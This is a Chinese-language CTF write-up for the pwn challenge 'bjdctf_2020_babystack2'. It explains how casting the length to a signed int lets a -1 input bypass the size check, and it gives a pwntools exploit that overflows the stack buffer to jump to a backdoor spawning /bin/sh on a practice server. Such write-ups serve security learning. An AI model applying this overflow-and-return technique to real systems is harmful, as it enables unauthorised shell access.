 ```yaml
---
title: bjdctf_2020_babystack2
date: 2023-10-24
categories:
  - CTF
  - Pwn
---
```


## 前置工作

先 CheckSec 一波，结果如下

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ checksec bjdctf_2020_babystack2 
[*] '/home/ela/Pwn/bjdctf_2020_babystack2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

开启了 NX，其他没啥

用 IDA 64 反编译一下主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[12]; // [rsp+0h] [rbp-10h] BYREF
  size_t nbytes; // [rsp+Ch] [rbp-4h] BYREF

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  LODWORD(nbytes) = 0;
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("* And Welcome to the bin world!  *");
  puts("*  Let's try to pwn the world!   *");
  puts("* Please told me u answer loudly!*");
  puts("[+]Are u ready?");
  puts("[+]Please input the length of your name:");
  __isoc99_scanf("%d", &nbytes);
  if ( (int)nbytes > 10 )
  {
    puts("Oops,u name is too long!");
    exit(-1);
  }
  puts("[+]What's u name?");
  read(0, buf, (unsigned int)nbytes);
  return 0;
}
```

在仔细找找，发现在 `0x400726` 上有后门函数 `backdoor()`

```c
__int64 backdoor()
{
  system("/bin/sh");
  return 1LL;
}
```

## 解决思路

这道题的关键在于变量 `nbytes` 的利用，`nbytes` 在声明的时候是作为 `size_t` 声明出来的，本身属于无符号整型，但在 `if ( (int)nbytes > 10 )` 中被强制转换成了有符号的整型 `int`，造成了整数溢出

作为初学者，我也不知道上面说的是不是真的，所以我自己试了一下，写了个 C 程序

```c
#include "stdio.h"

int main() {
    unsigned int nbytes;
    scanf("%d", &nbytes);
    if ((int) nbytes > 10) {
        puts("signed > 10");
    }
    if ((unsigned int) nbytes > 10) {
        puts("unsigned > 10");
    }
    return 0;
}
```

当你输入 `100` 的时候，输出如下

```
signed > 10
unsigned > 10
```

当你输入 `-100` 或者 `-1` 的时候，输出如下

```
unsigned > 10
```

我们就可以将 `nbytes` 定为 `-1`，就能绕过最大长度 10 的限制，知道这个原理过后，我们可以编写 Exp

## 编写 Exp

```python
from pwn import *

io = remote("node4.buuoj.cn", 26082)
backdoor = 0x400726
io.recvuntil("[+]Please input the length of your name:")
io.sendline("-1")
io.recvuntil("[+]What's u name?")
payload = b"A"*(0x10+0x8) + pack(backdoor, 64)
io.sendline(payload)
io.interactive()

```

运行后使用 `cat flag`，获得 Flag 是 `flag{13c76a46-00ba-4c35-9f65-3ffde7e913e2}`